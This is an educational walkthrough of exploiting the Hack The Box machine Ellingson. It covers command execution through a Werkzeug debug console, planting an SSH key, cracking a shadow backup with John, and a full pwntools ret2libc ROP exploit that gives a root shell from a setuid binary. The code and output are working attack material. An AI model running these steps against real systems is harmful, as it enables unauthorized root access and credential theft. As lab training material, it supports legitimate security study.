

# Exercise: Exploiting a Buffer Overflow on Ellingson

In the Hack The Box machine Ellingson, the website has left a debugging console enabled that can be used to execute remote commands. This allows us to write an SSH key for the user hal and SSH onto the box as that user. Once on the box, we discover a backup of the shadow file that hal has access to that contains passwords that can be cracked using John The Ripper. This gives us a password for the user margo. As margo, we find a program called garbage that is owned by root and has the setuid bit set. garbage is vulnerable to a buffer overflow and using the Pwntools framework, we can write an exploit to do a buffer overflow attack and get a shell as root.

An nmap scan shows that SSH \(port 22\) and HTTP \(port 80\) are running. The website is for a company Ellingson Mineral Corp and the team information reveals a list of possible users \(Figure 3-9\)

!\[Graphical user interface, application

Description automatically generated\]\(../.gitbook/assets/0%20%285%29.png\)

Contact information on Ellingson

Clicking on one of the buttons to Details, we get a page that has the url [http://ellingson.htb/articles/1](http://ellingson.htb/articles/1) . Changing the number to a high value causes an error that causes a development page showing details of the error and a Traceback which is the list of functions called that lead to the error \(Figure 3-10\). If you remember the list of the OWASP top 10 vulnerabilities, one category was Security Misconfiguration and specifically: "Leaving debugging or development options switched on in the application". What makes this worse is that the Werkzeug traceback interpreter allows access to a python console

Debug information after exception is thrown by application

Before moving onto the console, we can see from the traceback that the application is a Flask application which is a framework for building web applications in Python. Going into the console, we can execute bash commands using the code:

\[console ready\]

&gt;&gt;&gt; import subprocess

&gt;&gt;&gt; proc = subprocess.check\_output\('whoami',shell=True\)

&gt;&gt;&gt; print\(proc.decode\('iso-8859-1'\)\)

hal

&gt;&gt;&gt;

Doing an ls on the home directory of hal reveals an .ssh folder

&gt;&gt;&gt; proc = subprocess.check\_output\('ls -al /home/hal',shell=True\)

&gt;&gt;&gt; print\(proc.decode\('iso-8859-1'\)\)

total 36

drwxrwx--- 5 hal hal 4096 May 7 2019 .

drwxr-xr-x 6 root root 4096 Mar 9 2019 ..

-rw-r--r-- 1 hal hal 220 Mar 9 2019 .bash\_logout

-rw-r--r-- 1 hal hal 3771 Mar 9 2019 .bashrc

drwx------ 2 hal hal 4096 Mar 10 2019 .cache

drwx------ 3 hal hal 4096 Mar 10 2019 .gnupg

-rw-r--r-- 1 hal hal 807 Mar 9 2019 .profile

drwx------ 2 hal hal 4096 Mar 9 2019 .ssh

-rw------- 1 hal hal 865 Mar 9 2019 .viminfo

&gt;&gt;&gt;

Looking at the contents of the .ssh folder, the authorized\_keys file contains public keys that do not match the public key in the file id\_rsa.pub. In any event, the id\_rsa key which contains the private key you would need to use to ssh onto the machine is encrypted. The easiest path is to produce a key yourself using ssh-keygen and add the public key in the authorized\_keys file:

&gt;&gt;&gt; proc = subprocess.check\_output\('echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCqqO+JGJahJ1k1/WRLCJiWJAZ3DTRByeHeCXAfa7PyJpC7ryi0rD3OxZmQW3EiCP+utjkTCmkLHwHNnh/66hHynwdZBlAGMb0aQ/sCHIx7MxFHPcugJJHh2Se7n4CDPVNNT12JX1isco4H4ss/pRfgk2vfnqSk3WUVj/bJu52Cs9rOlvZTVBmNpo85ttg57uThAMOSwpz2e7AaGUVVLV6qJbajfJ4V4gpVWC9hztQB+1u03COqy2bmUlWvvKRhzDR6o9ZeDbhH+pKGUb42a0wnxoWXeUhxWcaJ1N/R1zsKUvn+MH1HemT4eEDWfJ3uiL4tASRneNooSE6ycw4SkEGZyVVadirFHsv8QgXp7ygtgy7mMT6f2NbjyLz4/D+iCcVpBWc+tL6722OhsOAE1E9PpTZsW6VqpqrbIqJ+b6PH9XuBcqcVEkZcj7mN5r+/iErWydvsKOLCGeSjC60B5J6hhn9LE3ZK0kI2jdCx+tZzfVrkAmyeznKQb5x/ZfqZyAk=" &gt;&gt; /home/hal/.ssh/authorized\_keys',shell=True\)

&gt;&gt;&gt;

On the ParrotSec machine, you can then use the private key to ssh onto the box as hal.

┌─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $ssh -i hal.key hal@ellingson.htb

&lt;SNIP&gt;

Last login: Sun Mar 10 21:36:56 2019 from 192.168.1.211

hal@ellingson:~$

The user hal belongs to the groups hal and adm

hal@ellingson:~$ groups

hal adm

hal@ellingson:~$

Looking at files that the adm has access to, one stands out and that is a backup of the shadow file which is where Linux keeps the hashed password information for users.

hal@ellingson:~$ find / -group adm 2&gt;/dev/null

/var/backups/shadow.bak

/var/spool/rsyslog

/var/log/auth.log

&lt;SNIP&gt;

hal@ellingson:~$

Copy the shadow.bak to your local directory with scp:

┌─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $scp -i hal.key hal@ellingson.htb:/var/backups/shadow.bak .

In the shadow file there are entries for the users theplague, hal, margo and duke. The hashes can be copied into a separate file for cracking with John The Ripper. Before you do that however, you can create a custom wordlist. On the website, a note from ThePlague suggests that the most common passwords are Love, Secret, Sex and God. So you can try to crack the passwords just using words from rockyou.txt that have these four words as part of them:

grep -E ​'love\|sex\|secret\|god'​ /usr/share/wordlists/rockyou.txt &gt; wordlist

Then using that word list with john:

┌─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $john --wordlist=./wordlist hash.txt

Using default input encoding: UTF-8

Loaded 1 password hash \(sha512crypt, crypt\(3\) $6$ \[SHA512 256/256 AVX2 4x\]\)

Cost 1 \(iteration count\) is 5000 for all loaded hashes

Will run 2 OpenMP threads

Press 'q' or Ctrl-C to abort, almost any other key for status

iamgod$08 \(?\)

This returns a password iamgod$08 which can be tested for the 4 users with SSH to find out that it works with the user margo.

As the user margo, we can start our enumeration on the box looking for paths to privilege escalation. We cover this process in Chapter 8, but for the time being, if we run the find command, we can look for binaries that have the SUID bit set:

find / -perm -u=s -type f 2&gt;/dev/null

This will highlight a number of files but one that is not normally found on Linux boxes is the program /usr/bin/garbage that has the suid bit set binary. When you examine the permissions of a file, the x which stands for execute permission is replaced with s. This means that when the binary is run, it will run as the owner of the file, which in this case is root.

margo@ellingson:~$ ls -al /usr/bin/garbage

-rwsr-xr-x 1 root root 18056 Mar 9 2019 /usr/bin/garbage

margo@ellingson:~$

Running the application prompts for a password:

margo@ellingson:~$ /usr/bin/garbage

Enter access password:

If we run the command strings on the file to list all of the hard coded strings, part of the output is interesting because one of the strings looks like a password:

/var/secret/accessfile.txt

user: %lu cleared to access this application

user: %lu not authorized to access this application

User is not authorized to access this application. This attempt has been logged.

error

Enter access password:

N3veRF3@r1iSh3r3!

access granted.

access denied.

It looks like the password might be N3veRF3@r1iSh3r3! And this is confirmed running the program again and putting in the password:

margo@ellingson:~$ /usr/bin/garbage

Enter access password: N3veRF3@r1iSh3r3!

access granted.

\[+\] W0rM \|\| Control Application

\[+\] ---------------------------

Select Option

1: Check Balance

2: Launch

3: Cancel

4: Exit

&gt;

It is time to copy the file back to the local box to look at it more closely. We can use scp again to copy the file back to our box:

┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $scp margo@ellingson.htb:/usr/bin/garbage .

margo@ellingson.htb's password:

garbage 100% 18KB 23.3KB/s 00:00

┌─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $

We are now going to do a bit of reverse engineering using a tool called Ghidra which can be downloaded and installed from [https://ghidra-sre.org](https://ghidra-sre.org). Run Ghidra and select Import File… from the File menu and choose the binary garbage. You will be promoted to confirm this and the dialog will report that the garbage file is an ELF Linux binary \(Figure 3-11\).

Go ahead and confirm until the original file dialog is shown and then double click on the garbage file to open it for analysis. You will be asked if you want to analyze the file and so select all options and say yes.

!\[A picture containing text, screenshot, indoor

Description automatically generated\]\(../.gitbook/assets/3%20%285%29.png\)

Ghidra windows after analysis of garbage

The layout of Ghidra is a set of windows that display information about the program. Referring to Figure 3-12, the Symbol Tree lists the functions in the program and their locally declared variables. The assembly of the entire program is displayed in the Listing window . Source code that is reverse engineered by Ghidra is displayed in the Decompile window . The overall structure of the program with the different sections is shown in the Program Trees window . Finally, the Data Types are shown in the Data Type Manager window . To bring up the decompilation of a function, double click the function in the Symbol Tree. Note that the assembly listing will change to the selected function.

Let us run through the first part of the code:

void main\(void\)

{

ulong uVar1;

int local\_10;

\_\_uid\_t local\_c;

uVar1 = check\_user\(\);

local\_c = \(\_\_uid\_t\)uVar1;

set\_username\(local\_c\);

uVar1 = auth\(local\_c\);

if \(\(int\)uVar1 == 0\) {

/\* WARNING: Subroutine does not return \*/

exit\(-1\);

}

To explore this code, you can double click on the function names to display the decompiled code of that function. The function check\_user\(\) does a getuid\(\) to get the current user's uid. It checks to see if that is either 0 which is root, 1000 which is theplague or 1002 which is margo. If not, then it prints the message "User is not authorized to access this application. This attempt has been logged." and exits. Note that it does not log the attempt. Otherwise the function returns the user id and the function sets\_username\(\) sets the global variable username from the user id. The next function called is auth\(\) .

ulong auth\(undefined4 uid\)

{

int result;

undefined8 local\_f8;

undefined8 local\_f0;

undefined8 local\_e8;

undefined2 local\_e0;

char input\_buffer \[100\];

char local\_username \[12\];

undefined4 local\_uid;

local\_uid = uid;

strcpy\(local\_username,username\);

printf\("Enter access password: "\);

gets\(input\_buffer\);

putchar\(10\);

result = strcmp\(input\_buffer,"N3veRF3@r1iSh3r3!"\);

if \(result != 0\) {

puts\("access denied."\);

}

else {

local\_f8 = 0x6720737365636361;

local\_f0 = 0x66206465746e6172;

local\_e8 = 0x3a7265737520726f;

local\_e0 = 0x20;

strcat\(\(char \*\)&local\_f8,local\_username\);

syslog\(6,\(char \*\)&local\_f8\);

puts\("access granted."\);

}

return \(ulong\)\(result == 0\);

}

In this function, the main things to note is the gets\(input\_buffer\) which gets the password entered by the user and puts it in a buffer that is 100 bytes char long. This is a vulnerability because the buffer can be overflowed by inputting a longer than 100 character string for the password. You can confirm this yourself:

┌─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $./garbage

Enter access password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

access denied.

Segmentation fault

In order to get a better understanding of what is going on, we can run the program garbage in a debugger, gdb. GDB allows us to step through code in a program and set and inspect variables as it runs. There is a set of additional commands to GDB that can be installed called GEF. Documentation and installation instructions can be found here [https://gef.readthedocs.io/en/master/](https://gef.readthedocs.io/en/master/). GEF provides some commands that are specifically designed to help with exploit development.

We can run garbage in gdb using the command:

┌─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $gdb garbage

Once it starts, we can use the GEF command pattern create 200 to create a non-repeating pattern of characters that we can use as input for the password. If we run the program with the run \(or just r\) command in GDB, the program will prompt for a password. We can then paste the text pattern we got from the pattern create and you should get an error of the type segmentation fault \(SIGSEGV\). This fault occurs when the program can't continue to run because it is trying to access memory or an instruction that is invalid. The error occurs in the function auth\(\):

\[ Legend: Modified register \| Code \| Heap \| Stack \| String \]

── registers ────

…

$rsp : 0x00007fffffffdf38 → "raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxa\[...\]"

…

── stack ────

0x00007fffffffdf38│+0x0000: "raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxa\[...\]" ← $rsp

0x00007fffffffdf40│+0x0008: "saaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaaya\[...\]"

0x00007fffffffdf48│+0x0010: "taaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"

0x00007fffffffdf50│+0x0018: "uaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"

0x00007fffffffdf58│+0x0020: "vaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"

0x00007fffffffdf60│+0x0028: "waaaaaaaxaaaaaaayaaaaaaa"

0x00007fffffffdf68│+0x0030: "xaaaaaaayaaaaaaa"

0x00007fffffffdf70│+0x0038: "yaaaaaaa"

─── code:x86:64 ────

0x40160d &lt;auth+250&gt; call 0x401050 &lt;puts@plt&gt;

0x401612 &lt;auth+255&gt; mov eax, 0x0

0x401617 &lt;auth+260&gt; leave

→ 0x401618 &lt;auth+261&gt; ret

\[!\] Cannot disassemble from $PC

─ threads ────

\[\#0\] Id 1, Name: "garbage", stopped 0x401618 in auth \(\), reason: SIGSEGV

── trace ────

\[\#0\] 0x401618 → auth\(\)

gef➤

The output is a little daunting but in the stack section, the first line is what has been put into the register rsp \($rsp in GDB\). rsp is the register that will hold the address that a function will return to after it completes. This means that our input has overflowed the buffer allocated to it and this particular pattern of text starting "raaaaaa…" has been loaded into the rsp register and the program thinks that this is the location of a valid instruction address. When the program tries to execute this instruction, it will cause a segmentation fault error as mentioned before. However, since we control what value gets placed in the rsp register, we can put the address of code that we control. First, we need to know the exact offset of the pattern that gets placed in the rsp register.

To find the offset within the pattern we created, we can use another GEF command pattern offset, passing it the section of the pattern in rsp. This will return the offset and you will find out that it is at position 136

gef➤ pattern offset raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxa

\[+\] Searching 'raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxa'

\[+\] Found at offset 136 \(big-endian search\)

gef➤

We now have the essentials for a buffer overflow and can control the execution, but the question is; what can we run? This is where Return Oriented Programming \(ROP\) comes in. In ROP, we are looking for a sequence of assembly operations that will perform some specific action ant return to the next instruction in our sequence using a ret \(return\) instruction. The sequence of useful instructions, ending with a ret, is called a gadget. What ideally we are trying to do is to call useful functions like system or execve which are C functions that allow other commands to be run. System and execve are located in the library libc that is almost always used by C programs. Because we are constructing a sequence, or chain \(called a ROP chain\), of gadgets to run a function in libc, the attack is also referred to as return-to-libc or ret2libc.

Before we start however, we need to check what mitigations the program is using against buffer overflows using the checksec function in GEF

gef➤ checksec

\[+\] checksec for '/home/oztechmuse/boxes/Ellingson/garbage'

Canary : ✘

NX : ✓

PIE : ✘

Fortify : ✘

RelRO : Partial

NX is enabled which means that we can't put executable code on the stack. That is ok because we are avoiding doing that by using ROP chains instead. The Partial Relocation Read-Only is also not an issue since this mitigates a technique that are not going to use but I will come back to later.

The more important issue is the value for ASLR \(Address Space Layout Randomization\) on the system which is a technique that attempts to make it more difficult to carry out buffer overflows by randomizing the position in memory space of the base address of the program, its libraries, stack and heap.

margo@ellingson:~$ cat /proc/sys/kernel/randomize\_va\_space

2

As ASLR is enabled \(2\) and so this means that we can't simply find the address of assembly instructions as they are moved around in memory when the application is run. However, in a running program, the randomization is fixed and functions are addressed as an offset to a base address. If we are interested in functions from libc, we can find out the offset of a known function and then calculate the relative offsets for other functions.

On your local machine, make sure that ASLR is enabled by editing the /proc/sys/kernel/randomize\_va\_space as root and setting it to 2

To illustrate what this does, we will create a one line application that simply prints the address of the puts function:

\#include &lt;stdio.h&gt;

void main\(\) {

printf\("%p\n", &puts\);

}

Here the printf statement uses the %p format character to print an address and the the address is of the function puts \(&puts\).

Compile and run the program a few times:

┌─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $gcc -o poc poc.c u

┌─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $./poc v

0x7f193b460550

┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $./poc

0x7f334deef550

┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $./poc

0x7fbce62b6550

┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $./poc

0x7fc10b009550

We use the GNU C compiler, gcc to compile the source code poc.c and create a 64 bit executable object poc u. You can see that the address changes every time it runs. Let us change the program to show how we are going to get a base address for libc and use that to calculate the address of other functions like system.

\#include &lt;stdio.h&gt;

\#include &lt;stdlib.h&gt;

void main\(\) {

u printf\("puts: %p\n", &puts\);

v printf\("system: %p\n", &system\);

w printf\("Difference: 0x%x\n", &puts - &system\);

}

The program does 3 printf statements to print the addresses of two libc functions, puts u \(which writes a string to stdout\) and system v. The third printf takes the difference between the addresses and prints that out using the formatting character %x w. When you run the program poc, you will get the output:

┌─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $./poc

puts: 0x7fea45ef0550

system: 0x7fea45ec2db0

Difference: 0x2d7a0

Remember that even though the addresses of puts and system will change every time the program is run, the difference in the addresses will always be the same because they are always loaded from libc at the same relative position. What we need now is the actual offset of puts and system within libc and we can get that by using the command line program readelf. Readelf provides information about Linux programs which are in the ELF format. We run it with the argument -s which will get readelf to print the symbols of the particular version of libc our program is using u. The output from this is then passed to the grep command to filter just the strings that contain the words system@@ and puts@@.

┌─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $readelf -s /lib/x86\_64-linux-gnu/libc.so.6 \| grep -E 'system@@\|puts@@' u

195: 0000000000076550 472 FUNC GLOBAL DEFAULT 14 \_IO\_puts@@GLIBC\_2.2.5

430: 0000000000076550 472 FUNC WEAK DEFAULT 14 puts@@GLIBC\_2.2.5

1160: 0000000000074e80 380 FUNC WEAK DEFAULT 14 fputs@@GLIBC\_2.2.5

1430: 0000000000048db0 45 FUNC WEAK DEFAULT 14 system@@GLIBC\_2.2.5

The difference between the offsets 76550 and 48DB0 is 2D7A0, the same number we got as the difference between the addresses when the program ran. Using the offset of puts in libc allows us to calculate the base address of libc. Getting the program to print the actual address of a function is called "leaking the address". Using the leaked address of puts can then be used to find the base address by simply subtracting the offset from that leaked address.

To write the exploit code, we are going to use a Python framework called pwntools \(which can be installed from [https://github.com/Gallopsled/pwntools\](https://github.com/Gallopsled/pwntools\)\). The first stage is to leak the address of puts. Unfortunately, we don't have a convenient printf statement that can do this for us so we need to construct ROP gadgets that will do two things; the first is to load the address of puts into the register RDI, the second is to then call the function puts. Since the application garbage is a 64 bit program, parameters are passed to a function using a calling convention that uses the registers RDI, RSI, RDX, RCX, R8 and R9. In this case, we are passing the value of the address of the function puts to the function puts itself and so we only need to use the register RDI to do that.

Another problem we have to solve is to get the address of the function puts to call. When code is relocatable, you can't just call a function directly because the real address of this function is changed each time the application is run. Instead, to call a function, the address of an entry in a table called the Procedure Linkage Table \(PLT\) is used. This then has a pointer to an entry in the Global Offset Table \(GOT\) that has the real address.

In our ROP chain, if we want the real address of puts, we need the address of the puts entry in the GOT. To actually call puts to print that leaked address, we use the address of puts in the PLT.

To summarize, stage 1 involves leaking the address of puts by calling puts and passing the address of puts itself in the register RDI. To load RDI with the address of puts, we can search for assembly instructions that will do that for us followed by a ret instruction. To load a register, we can use the assembly instruction pop rdi. A pop instruction takes the address at the top of the stack and puts it into the specified register.

We can use the tool ropper, a program that will disassemble a program and print out gadgets useful for buffer overflow exploits, and search for a gadget that will suit our purposes:

┌─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $ropper -f garbage --search "pop rdi"

\[INFO\] Load gadgets from cache

\[LOAD\] loading... 100%

\[LOAD\] removing double gadgets... 100%

\[INFO\] Searching for gadgets: pop rdi

\[INFO\] File: garbage

0x000000000040179b: pop rdi; ret;

We can start putting together the exploit code.

from pwn import \*

\# p = gdb.debug\('./garbage', 'b main'\) \# can use this for debugging

p = process\("./garbage"\)

junk = \("A" \* 136\).encode\(\)

pop\_rdi = p64\(0x40179b\)

got\_puts = p64\(0x404028\)

plt\_puts = p64\(0x401050\)

plt\_main = p64\(0x401619\)

payload = junk + pop\_rdi + got\_puts + plt\_puts + plt\_main

p.sendline\(payload\)

p.recvuntil\("access denied."\)

received = p.recvall\(\)

leaked\_put = received\[:8\].strip\(\).ljust\(8, b"\x00"\)

log.info\(f"Leaked address: 0x{leaked\_put.hex\(\)}"\)

The address for got\_puts and plt\_puts is obtained by using the program objdump to disassemble the program garbage \(using the -D flag\) and passing the output to grep to filter for the word puts.

┌─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $objdump -D garbage \| grep puts

0000000000401050 &lt;puts@plt&gt;:

**401050**: ff 25 d2 2f 00 00 jmpq \*0x2fd2\(%rip\) \# **404028** &lt;puts@GLIBC\_2.2.5&gt;

Pwntools handles handling input and output to the application using a range of calls to send and receive text. The leaked address of puts is formatted by stripping the newline character at the end and padding the address obtained, if necessary, with zeros.

Once the leaked address is obtained, we need to stay in the program and do a second buffer overflow, but this time invoking the system function to run a shell. The next instruction needs to be the return address which should be that of main \(the main entry point of the program\) that we can again get from objdump \(note this was included in the code above at \).

┌─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $objdump -D garbage \| grep main

401194: ff 15 56 2e 00 00 callq \*0x2e56\(%rip\) \# 403ff0 &lt;\_\_libc\_start\_main@GLIBC\_2.2.5&gt;

0000000000401619 &lt;main&gt;:

401644: 0f 84 e6 00 00 00 je 401730 &lt;main+0x117&gt;

We can add the address of main to the payload. In stage 2 of the exploit, we are going to overflow the buffer and use the leaked address to calculate the full address of the system function and the location of the string "/bin/sh" which is in libc. We also need another function, setuid to make sure that when the shell is run by system, it is run as root's user id which is 0. Using readelf to get the offsets of the functions in libc:

┌─\[oztechmuse@parrot\]─\[~/boxes/Ellingson\]

└──╼ $readelf -s /lib/x86\_64-linux-gnu/libc.so.6 \| grep -E 'system\|setuid\|puts'

25: 00000000000cc0c0 144 FUNC WEAK DEFAULT 14 setuid@@GLIBC\_2.2.5

430: 0000000000076550 472 FUNC WEAK DEFAULT 14 puts@@GLIBC\_2.2.5

1430: 0000000000048db0 45 FUNC WEAK DEFAULT 14 system@@GLIBC\_2.2.5

We can now calculate the base address of libc

libc\_puts = p64\(0x76550\)

libc\_system = p64\(0x48db0\)

libc\_setuid = p64\(0xcc0c0\)

libc\_binsh = p64\(0x18a156\)

libc\_base = u64\(leaked\_put\) - u64\(libc\_puts\)

log.info\(f"libc base: 0x{libc\_base.to\_bytes\(8, byteorder='big'\)\[2:\].hex\(\)}"\)

system\_loc = \(u64\(libc\_system\) + libc\_base\).to\_bytes\(8, byteorder='little'\)

setuid\_loc = \(u64\(libc\_setuid\) + libc\_base\).to\_bytes\(8, byteorder='little'\)

binsh\_loc = \(u64\(libc\_binsh\) + libc\_base\).to\_bytes\(8, byteorder='little'\)

log.info\(f"System: 0x{\(u64\(libc\_system\) + libc\_base\).to\_bytes\(8, byteorder='big'\)\[2:\].hex\(\)}"\)

log.info\(f"Setuid: 0x{\(u64\(libc\_setuid\) + libc\_base\).to\_bytes\(8, byteorder='big'\)\[2:\].hex\(\)}"\)

log.info\(f"/bin/sh: 0x{\(u64\(libc\_binsh\) + libc\_base\).to\_bytes\(8, byteorder='big'\)\[2:\].hex\(\)}"\)

gadget\_setuid = pop\_rdi + p64\(0\) + setuid\_loc

gadget\_system = pop\_rdi + binsh\_loc + system\_loc

p.sendline\(junk + gadget\_setuid + gadget\_system\)

p.interactive\(\)

The offsets of the functions puts, system and setuid and the string "/bin/sh" are added to the program . The base address of libc is then calculated as the difference between the leaked address of puts and its offset in libc . The actual addresses of system, setuid and "/bin/sh" can then be calculated . Finally, the ROP chain is constructed and sent to the program as input for the prompted password.

The result is a shell as root

┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $python3 exploit.py

\[+\] Starting local process './garbage': pid 162580

\[\*\] Leaked addr: 0x7f5f3d50d550

\[\*\] libc base: 0x7f5f3d497000

\[\*\] System: 0x7f5f3d4dfdb0

\[\*\] Setuid: 0x7f5f3d5630c0

\[\*\] /bin/sh: 0x7f5f3d621156

\[\*\] Switching to interactive mode

Enter access password:

access denied.

$ whoami

root

$

Note that to become root, the program needs to have the setuid bit set and the owner of the program needs to be root:

sudo chown root garbage

sudo chmod u+s garbage

The final step is to run the exploit on the Ellingson box. To do this, you need to change the addresses from libc to the addresses of the version that is on the Ellingson machine. You can find out what version of libc is being used on Ellingson using the ldd command:

margo@ellingson:~$ ldd /usr/bin/garbage

linux-vdso.so.1 \(0x00007ffc89d70000\)

libc.so.6 =&gt; /lib/x86\_64-linux-gnu/libc.so.6 \(0x00007f31f7e49000\)

/lib64/ld-linux-x86-64.so.2 \(0x00007f31f823a000\)

You can then simply change the way the program is run from

p = process\("./garbage"\)

to:

s = ssh\(host = 'ellingson.htb', user = 'margo', password = 'iamgod$08'\)

p = s.process\('/usr/bin/garbage'\)

Run the program to get access:

┌─\[rin@parrot\]─\[~/boxes/Ellingson\]

└──╼ $python3 exploit.py

\[+\] Connecting to ellingson.htb on port 22: Done

\[\*\] margo@ellingson.htb:

Distro Ubuntu 18.04

OS: linux

Arch: amd64

Version: 4.15.0

ASLR: Enabled

\[+\] Starting remote process '/usr/bin/garbage' on ellingson.htb: pid 1416

\[\*\] Leaked address: 0x7fa8c7a819c0

\[\*\] libc\_base: 0x7fa8c7a0d980

\[\*\] System: 0x7fa8c7a50440

\[\*\] Setuid: 0x7fa8c7ae6970

\[\*\] /bin/sh: 0x7fa8c7bb4e9a

\[\*\] Switching to interactive mode

access denied.

\# $ whoami

root

\# $ hostname

Ellingson

And that is it. Pwntools could have done a lot more for us, saving the need to find the addresses of the functions within garbage and libc. It also has high level functions to construct ROP chains. However, doing it manually helps understand what is going on.

Buffer overflows on Windows

Apart from changing platform and the tools we can use to explore buffer overflows for Windows applications, we can also look at 32 bit applications that differ in significant aspects to the 64 bit applications we have just covered. The registers were covered in Table x and there is a equivalence between the 32 bit registers and those in 64 bit architectures. The main difference with registers is that 64 bit processors have the extra numbered registers than 32 bit processors.

The other main difference is the function calling convention. If you look at most books and examples of buffer overflows, the claim will be made that 32 bit programs always pass parameters to a function on the stack. Sadly, that is not the case as there are a number of different calling conventions that different compilers use in an attempt to improve the performance of function calls. The conventions called "cdecl" \(pronounced see-dec-el\) and stdcall do put everything on the stack in reverse order to their declaration \(right to left\). If we take the following code as an example:

\#include &lt;stdio.h&gt;

void printVars\(int var1, int var2\) {

printf\("The function was passed %d and %d"\);

}

void main\(\) {

u printVars\(3,7\);

}

The call to printVars from main u will be preceded with two push instructions pushing 7 and then 3 onto the stack. On a Windows machine the 32 bit assembly of this code looks like:

12: printVars\(3, 7\);

012318B8 push 7

012318BA push 3

012318BC call printVars \(0123117Ch\) u

The other thing that happens during the call instruction that follows the variables being pushed onto the stack is that return address is pushed as well u. On leaving the function printVars, the return address will be popped from the stack and loaded into EIP and so the exploit of buffer overflows in 32 bit programs is similar to what we have already covered with 64 bit.

Microsoft Windows implements a protection mechanism called Data Execution Prevention \(DEP\) that marks the stack, heap and other memory regions as non-executable. There are a number of ways of getting around this by calling Windows functions that either create new memory locations that are executable or by changing the protection level of the DEP protected memory. Once DEP is bypassed, or if it is not enabled in the first place, we can take advantage of this and do a buffer overflow that includes shell code that can execute directly from the stack.

We will go through this using a case study from Hack The Box called Buff.

